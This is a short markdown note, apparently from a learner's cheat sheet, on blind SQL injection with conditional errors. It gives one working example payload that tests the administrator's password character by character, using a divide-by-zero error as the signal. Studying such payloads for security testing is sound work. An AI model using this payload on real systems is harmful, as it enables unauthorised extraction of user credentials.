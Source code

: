 # Blind SQL Injection

### Blind SQL Injection with Conditional Errors
Example payload:
``
iCr' and (select case when substr(password, 1, 1) = 'i' then to_char(1/0) else 'a' end from users where username = 'administrator')='a
```
